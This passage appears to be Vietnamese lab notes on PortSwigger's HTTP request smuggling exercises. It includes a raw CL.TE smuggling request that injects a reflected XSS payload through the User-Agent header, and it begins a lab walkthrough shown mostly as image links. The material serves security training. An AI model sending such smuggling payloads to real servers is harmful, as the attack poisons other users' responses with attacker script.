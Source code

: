 Ví dụ, giả sử một ứng dụng có lỗ hổng XSS phản chiếu trong header `User-Agent`. Bạn có thể khai thác lỗ hổng này trong một cuộc tấn công request smuggling như sau:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
Yêu cầu của người dùng tiếp theo sẽ được nối vào yêu cầu bị smuggle, và họ sẽ nhận được payload XSS phản chiếu trong phản hồi.

---

## 5. Exploiting HTTP request smuggling to deliver reflected XSS
https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

Đầu tiên ta tìm lỗ hổng XSS:\
![alt text](image-22.png)

Tạo 1 request mà nó sẽ đợi cho người dùng tiếp theo truy cập sẽ bị đưa đến post và dính XSS:\
![alt text](image-23.png)

